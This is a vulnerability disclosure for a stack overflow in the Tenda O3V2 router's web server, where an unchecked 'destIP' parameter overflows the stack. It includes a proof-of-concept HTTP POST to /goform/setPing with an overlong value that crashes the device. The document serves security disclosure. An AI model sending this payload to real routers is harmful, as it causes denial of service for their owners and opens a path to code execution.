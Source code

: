 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `fromPingResultGet` function, `destIP` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `destIP` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `destIP` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `destIP` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/setPing HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 270
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1/index.html
Cookie: O3V2.0_user=admin

pingMode=ping&action=&destIP=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&packetNum=&packetSize=&pro_ver=&timeout=
```



## Result

The target router crashes and cannot provide services correctly and persistently.
